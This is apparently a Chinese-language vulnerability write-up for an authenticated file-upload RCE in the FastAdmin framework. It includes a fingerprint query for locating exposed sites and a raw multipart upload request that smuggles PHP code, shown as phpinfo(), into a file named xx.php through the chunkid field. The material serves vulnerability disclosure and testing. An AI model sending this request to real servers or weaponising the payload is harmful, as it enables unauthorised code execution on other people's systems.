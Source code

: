 # FastAdmin 远程代码执行漏洞

## 漏洞描述

FastAdmin是一款基于ThinkPHP和Bootstrap的极速后台开发框架。FastAdmin框架存在有条件RCE漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致RCE。

参考链接：

- https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
- https://nosec.org/home/detail/4713.html

## 网络测绘

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

## 漏洞复现

前期准备：

1. 该接口至少需要普通用户权限，可以先在前台注册一个用户然后登录。
2. 需要修改默认配置才能使用分片上传功能。设置 application/extra/upload.php 下的chunking 项为 true。
3. 可使用 application/index/controller/Ajax 下的 upload() 方法作为入口点。根据 tp5 的路由，访问该入口点的 url 为 index.php?s=index/ajax/upload。

上传头像处post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```

![image-20221206160222513](images/image-20221206160222513.png)